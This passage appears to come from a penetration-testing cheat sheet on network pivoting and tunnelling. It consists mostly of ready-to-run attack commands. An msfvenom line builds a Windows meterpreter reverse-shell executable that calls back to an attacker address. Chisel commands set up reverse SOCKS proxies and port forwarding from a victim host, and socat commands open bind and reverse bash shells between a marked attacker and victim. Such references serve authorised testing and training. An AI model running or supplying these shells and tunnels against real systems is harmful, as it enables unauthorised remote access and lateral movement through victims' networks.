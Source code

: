 ```bash
# Double Pivoting
# Reverse shell from the pwned2 to the pwned1
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.42.42.1 LPORT=8088 -f exe --platform windows --arch x64 > reverse.exe

# Setup handler and exploit the found vulnerability
```





### Chisel

### socks

```bash
./chisel server -p 8080 --reverse #Server -- Attacker
./chisel-x64.exe client 10.10.14.3:8080 R:socks #Client -- Victim
#And now you can use proxychains with port 1080 (default)

./chisel server -v -p 8080 --socks5 #Server -- Victim (needs to have port 8080 exposed)
./chisel client -v 10.10.10.10:8080 socks #Attacker
```

#### Port forwarding

```bash
./chisel_1.7.6_linux_amd64 server -p 12312 --reverse #Server -- Attacker
./chisel_1.7.6_linux_amd64 client 10.10.14.20:12312 R:4505:127.0.0.1:4505 #Client -- Victim
```

















### Socat

### Bind shell

```bash
victim> socat TCP-LISTEN:1337,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane
attacker> socat FILE:`tty`,raw,echo=0 TCP4:<victim_ip>:1337
```

### Reverse shell

```bash
attacker> socat TCP-LISTEN:1337,reuseaddr FILE:`tty`,raw,echo=0
victim> socat TCP4:<attackers_ip>:1337 EXEC:bash,pty,stderr,setsid,sigint,sane
```
